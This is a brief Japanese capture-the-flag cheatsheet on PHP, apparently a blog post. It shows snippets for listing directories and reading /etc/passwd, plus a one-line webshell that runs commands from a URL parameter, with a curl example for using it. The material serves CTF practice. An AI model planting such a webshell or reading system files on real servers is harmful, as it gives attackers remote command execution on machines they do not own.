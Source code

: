 ```yaml
---
layout: post
published : true
title: "PHP"
permalink: /ctf/cheatsheets/php
tags: CTF Common cheatsheet PHP
---
```

## 基本
phpを対話シェルで起動
```sh
$ php -a
```

## よく使うコード
### ディレクトリをリスト
```php
<?php print_r(scandir("/")); ?>
```
### ファイルを表示
```php
<?php print_r(readfile("/etc/passwd")); ?>
```
### Webshell
以下をウェブサイト内の.phpに埋め込む。
```php
<?php system($_GET['cmd']) ?>
```
以下のようにして使う。
```sh
$ curl -s http://example.com/webshell.php?cmd=id
```